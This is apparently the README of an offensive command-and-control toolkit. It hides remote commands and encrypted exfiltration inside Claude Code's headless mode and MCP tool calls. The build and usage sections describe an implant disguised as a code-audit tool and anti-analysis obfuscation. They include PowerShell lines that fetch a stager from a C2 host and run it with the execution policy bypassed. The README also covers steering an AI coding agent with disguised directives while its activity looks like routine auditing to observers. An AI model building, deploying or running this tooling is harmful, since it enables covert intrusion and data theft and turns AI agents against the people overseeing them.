


# C4 Protocol

Obfuscated C2 over Claude Code's remote-control (headless) feature. Commands are disguised as software engineering directives; results are returned as encrypted "compliance audit" reports. All traffic flows through Claude Code's normal MCP tool interface — no custom network channels, no suspicious processes.

### Bootstrap Flow



### Command & Response Flow



## Overview

The protocol has two halves — **command encoding** and **result exfiltration** — both designed to blend into normal Claude Code / MCP traffic.

**Command path:** Tool invocations (e.g. `read_file path=/etc/passwd`) are encoded as varied coding tasks (polymorphic templates) using a trained codebook. Each implant is configured for a specific language (Python, C#, or Java) to maintain consistency. On the target, a lightweight C# engine derives a 64-character salt from the operator's P-256 public key, unlocks an encrypted configuration vault, and resolves the codewords back to the original tool name and parameter.

**Return path:** Execution results are encrypted using a modern **P-256 ECDH + AES-256-CBC** hybrid scheme and embedded in a fake JSON audit report as a `verification_record` field. The report's surface text reads like a routine compliance scan. The operator's TUI automatically decrypts the verification record using the private key.

**Transport:** Everything rides over Claude Code's headless mode and its standard MCP tool-call interface. The MCP server exposes a single tool called `audit_code`. The operator console automates the Claude Code web UI via a browser bridge (Camoufox/Playwright), so commands and responses flow through the normal web interface — no direct network connection to the target.

### Anti-reverse-engineering

- **Math-Free Encrypted Map** — All codeword-to-tool and codeword-to-parameter mappings are stored in a binary vault. No protocol-specific strings (`read_file`, `Portal`, etc.) exist in plaintext within the script.
- **Salt Derivation (KDF)** — A 64-character (256-bit) salt is derived at runtime from the operator's P-256 public key using HMAC-SHA256. This salt is used as the XOR key for the vault.
- **Multi-Language Templates** — Commands are encoded using 7 template families across 3 languages:
  - **Python:** `CLASS_METHOD`, `DECORATOR`, `TYPE_HINT`
  - **C#:** `CSHARP_CLASS`, `CSHARP_ATTRIBUTE`
  - **Java:** `JAVA_CLASS`, `JAVA_ANNOTATION`

  Each implant is locked to one language (random by default) for consistent code generation.
- **Many-to-One Mapping** — Sensitive values (like `/etc/passwd`) are mapped to multiple randomized cover values, breaking 1:1 correlation during analysis.
- **P-256 ECC Cryptography** — Uses P-256 ECDH for secure result exfiltration with AES-256-CBC encryption.

## Pipeline

Each run produces a unique implant instance under `implants/<implant-id>/` with its own codebook, config, language setting, and stager.

```
implant_actions.yaml
        |
        v
build/generate_codebook.py  -->  implants/<id>/codebook.yaml
        |
        v
build/derive_salt.py        -->  implants/<id>/salt.txt
        |
        v
build/export_config.py      -->  implants/<id>/config.enc
        |
        v
assemble logic              -->  implants/<id>/c4-implant.ps1 + config.yaml
        |
        v
build/assemble_stager.py    -->  implants/<id>/rc_stager_full.ps1
```

## Usage

### 1. Build an implant instance

```bash
cd c4_protocol
python build_implant.py
```

This generates a P-256 operator keypair, then runs the full pipeline (codebook → salt → config → assemble → stager). The output lands in `implants/<implant-id>/` with the keypair (`operator_private.der` + `operator_key.der`), codebook, encrypted vault, config, and stager. Keep `operator_private.der` safe — it's needed to decrypt exfiltrated results.

To reuse an existing key instead of generating a new one:

```bash
python build_implant.py --public-key path/to/operator_key.der
```

Optional flags:

```bash
python build_implant.py \
  --tool-codes 50          # codewords per tool (default: 50)
  --param-codes 100        # codewords per parameter (default: 100)
  --seed 42                # fixed seed for reproducible builds
  --language python        # code language: python, csharp, java, or random (default: random)
  --pshagent-dir ../PshAgent  # custom PshAgent module path
  --step codebook          # run only one step (codebook|salt|config|assemble|stager)
```

**Language selection:** By default, each implant randomly selects one of Python, C#, or Java for its template language. This is determined by the implant's seed for reproducibility. Use `--language` to force a specific language.

### 2. Start the operator console

```bash
python operator/c4_server.py --port 9050 --tcp-port 9090
```

The console listens for beacon check-ins on HTTP (`:9050`) and TCP (`:9090`). When a stager beacons in with a bridge URL, use `interact <name>` to open a browser session and start issuing commands.

To also serve stager files over HTTP, pass `--serve-dir` pointing at the `implants/` directory:

```bash
python operator/c4_server.py --port 9050 --tcp-port 9090 --serve-dir implants/
```

Files are accessible at `GET /serve/<implant-id>/<filename>` (e.g. `/serve/abc123/rc_stager_full.ps1`). A listing of all implants and their files is available at `GET /serve`.

### 3. Deploy the stager

Copy `implants/<implant-id>/rc_stager_full.ps1` to the target. It contains everything needed — the implant, PshAgent, and MCP server — all loaded in-memory.

If the operator console is running with `--serve-dir`, the target can pull the stager directly:

```powershell
Invoke-WebRequest -Uri http://<c2-host>:9050/serve/<implant-id>/rc_stager_full.ps1 -OutFile C:\temp\stager.ps1
powershell -ExecutionPolicy Bypass -File C:\temp\stager.ps1 -C2 <c2-ip>:9090
```

Or copy it manually and run:

```powershell
powershell -ExecutionPolicy Bypass -File rc_stager_full.ps1 -C2 <c2-ip>:9090
```

**Parameters:**

| Parameter | Required | Description |
|-----------|----------|-------------|
| `-C2` | Yes | C2 listener address as `host:port` (e.g. `10.0.1.4:9090`) |
| `-Name` | No | Session name shown in claude.ai/code |
| `-StagingDir` | No | Custom staging directory (default: `$env:TEMP\cc-<random>`) |
| `-Verbose` | No | Show detailed progress output |

The stager pre-trusts the workspace, launches a Claude Code remote-control session, and beacons the bridge URL back to the operator's TCP listener.

### 4. View results

The operator TUI automatically decrypts `verification_record` fields from audit responses when the implant's private key is available. Decrypted results are displayed inline in the session.

For manual decryption, use the operator's private key with `operator/Decrypt-AuditRecord.ps1`:

```powershell
.\operator\Decrypt-AuditRecord.ps1 -PrivateKeyPath implants/<id>/operator_private.der -Record "<base64 blob>"
```

## Components

### Build

#### build/derive_salt.py
Derives the 256-bit (64-character hex) salt from the P-256 public key using HMAC-SHA256.

#### build/encode.py
Encodes a tool call JSON into a polymorphic software directive. Supports 7 template families across Python, C#, and Java. Each implant uses only templates from its configured language.

#### build/export_config.py
XOR-encrypts all mappings (codewords, tools, parameters, values) into a single binary blob using the derived salt.

### Operator

#### operator/c4_server.py
TUI-based operator console (Textual/Rich). Listens for beacon check-ins on HTTP and TCP ports, provides an interactive session manager for selecting targets and issuing commands. Parses operator input, encodes it via the implant's codebook (using the implant's configured language), and delivers commands through the browser bridge or queues them for HTTP polling. Automatically decrypts `verification_record` responses using the implant's private key. Optionally serves stager files over HTTP (`--serve-dir`) for target-side retrieval.

#### operator/browser_bridge.py
Automates the Claude Code web UI using Camoufox (anti-detect Firefox via Playwright). Manages browser sessions: opens a remote-control session URL, types encoded directives into the ProseMirror editor, detects processing state (interrupt button, spinner, shimmer animation), and extracts response text from the DOM when Claude finishes. Includes heuristics to wait for complete responses before returning.

### Stager

#### stager/rc_stager_full.ps1.template
Full-deploy stager template. At build time, the implant (with PshAgent and MCP server embedded) is baked into this template. When executed on the target, it stages all payloads to a temp directory, configures Claude Code's MCP settings, launches a remote-control session, and beacons the bridge URL back to the C2 server over TCP.

### Runtime

#### runtime/c4-implant.ps1.template
Self-contained PowerShell script performing scan → resolve → execute → encrypt. Scans for `.py`, `.cs`, and `.java` files and uses language-specific regex patterns to extract codewords from the generated code.

#### runtime/mcp_server.py
FastMCP server exposing the `audit_code` tool. Receives project paths from Claude Code, invokes the implant as an in-memory PowerShell ScriptBlock, and returns the fake audit report.

## Artifacts (`implants/<implant-id>/`, gitignored)

| File | Description |
|------|-------------|
| `codebook.yaml` | Codeword-to-tool/param mappings (unique per instance) |
| `config.yaml` | Implant configuration (language, seed, implant_id) |
| `config.enc` | XOR-encrypted binary configuration vault |
| `salt.txt` | The 64-character salt used for this instance |
| `c4-implant.ps1` | Assembled implant with vault + operator key |
| `rc_stager_full.ps1` | Final stager (implant + PshAgent + MCP server embedded) |
| `operator_key.der` | Operator P-256 public key (SPKI DER format) |
| `operator_private.der` | Operator P-256 private key (PKCS8 DER format) |

## Testing

Template-to-regex alignment tests verify that generated code matches the implant's extraction patterns:

```bash
python build/test_templates.py        # Basic alignment (7 tests)
python build/test_templates_edge.py   # Edge cases (14 tests)
python build/test_templates_fail.py   # Failure cases (9 tests)
```
